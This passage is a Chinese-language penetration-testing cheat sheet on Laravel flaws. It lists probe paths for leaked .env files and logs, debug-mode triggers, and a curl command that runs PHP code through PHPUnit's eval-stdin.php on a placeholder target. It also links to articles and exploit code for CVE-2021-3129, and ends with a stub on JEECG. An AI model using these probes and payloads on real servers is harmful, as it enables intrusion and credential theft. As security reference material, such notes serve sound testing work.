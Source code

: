 **相关文章**
- [Laravel 6.x/7.x的一条执行代码的反序列化利用链](https://www.o2oxy.cn/3588.html)

**env 泄露**
- POC | Payload | exp
    ```
    /.env
    ```

**日志泄露**
- POC | Payload | exp
    ```
    /storage/logs/laravel.log
    ```

**Debug模式**
- POC | Payload | exp
    ```
    /logout
    /param[]=0
    ```

**Laravel PHPUnit Remote Code Execution**
- 影响版本
    - Before 4.8.28 and 5.x before 5.6.3

- POC | Payload | exp
    ```
    curl -d "<?php echo php_uname(); ?>" http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
    ```

**CVE-2021-3129 Laravel Debug 页面 RCE**
- 相关文章
    - [LARAVEL <= V8.4.2 DEBUG MODE: REMOTE CODE EXECUTION](https://www.ambionics.io/blog/laravel-debug-rce)
    - [漏洞分析 | Laravel Debug页面RCE（CVE-2021-3129）分析复现](https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g)
    - [再谈Laravel Debug mode RCE（CVE-2021-3129）漏洞](https://www.freebuf.com/vuls/264662.html)

- POC | Payload | exp
    - [ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)

**Laravel 8.x image upload bypass**
- 相关文章
    - [Laravel 8.x image upload bypass](https://infosecwriteups.com/laravel-8-x-image-upload-bypass-zero-day-852bd806019b)

---

### jeecg

> fofa: app="JEECG"

**相关文章**
- [JAVA代码审计-JEECG快速开发平台（一）](https://xz.aliyun.com/t/4405)
